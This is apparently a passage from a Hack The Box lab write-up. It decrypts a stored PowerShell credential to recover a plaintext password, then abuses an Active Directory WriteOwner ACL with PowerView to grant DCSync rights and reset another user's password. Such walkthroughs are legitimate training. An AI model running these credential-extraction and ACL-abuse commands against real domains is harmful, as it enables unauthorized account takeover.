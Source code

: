 We see an `cred.xml` which is a powershell `PSCredential`.
```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```

```python
C:\Users\nico\Desktop>powershell.exe "$cred = Import-CliXml -Path cred.xml ; $cred.GetNetworkCredential()"
powershell.exe "$cred = Import-CliXml -Path cred.xml ; $cred.GetNetworkCredential()"

UserName                                           Domain
--------                                           ------
Tom                                                HTB

C:\Users\nico\Desktop>powershell.exe "$cred = Import-CliXml -Path cred.xml ; $cred.GetNetworkCredential().Password"
powershell.exe "$cred = Import-CliXml -Path cred.xml ; $cred.GetNetworkCredential().Password"
1ts-mag1c!!!

```

We get a credential `Tom` : `1ts-mag1c!!!`

# User Escalation to Tom
We use those credentials to `SSH` into the `Tom` user.
![[Pasted image 20210719181435.png]]

We now run `Sharphound.ps1` to feed some food to our `bloodhound`.
On, Analyzing we find out that we have `writeowner` permission or ACL on `claire`.
![[Pasted image 20210719182935.png]]

We could use `powerview` to grant ourselves the `ACL` rights and access the reset password privilege.
```powershell
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Import-Module .\PowerView.ps1
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainObjectOwner -Identity claire -OwnerIdentity Tom                          
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity Tom -Rights DCSync   
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity Tom -Rights ResetPassword
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $pass = ConvertTo-SecureString "Dev1ce@_@123" -AsPlainText -Force                  
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -Identity claire -AccountPassword $pass
```
